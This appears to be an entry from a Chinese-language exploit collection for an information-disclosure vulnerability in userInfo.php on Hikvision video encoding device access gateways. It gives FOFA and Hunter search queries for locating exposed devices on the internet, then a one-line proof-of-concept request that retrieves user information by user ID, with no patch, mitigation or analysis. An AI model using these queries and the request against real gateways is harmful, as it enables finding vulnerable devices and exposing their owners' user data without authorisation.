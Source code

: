 # HiKVISION 视频编码设备接入网关 userInfo.php 信息泄露漏洞

## 网络测绘

fofa: app="HIKVISION-视频编码设备接入网关"

hunter: app.name="Hikvision 海康威视视频编码设备接入网关"

## POC / EXP

```
/userInfo/userInfo.php?userId=1
```